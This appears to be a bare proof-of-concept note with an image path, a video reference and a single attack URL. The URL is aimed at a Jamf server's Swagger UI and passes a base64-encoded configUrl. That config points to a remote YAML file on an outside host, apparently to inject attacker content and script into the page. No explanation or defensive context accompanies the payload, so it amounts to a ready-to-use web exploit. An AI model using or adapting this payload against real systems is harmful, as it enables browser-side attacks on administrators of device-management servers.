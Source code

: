 
![[2025-05-12 00-49-55.mkv]]





```
https://VULNERABLE_JAMF/classicapi/Swagger-Ui/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9zdGFuZGluZy1zYWx0LnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==
```

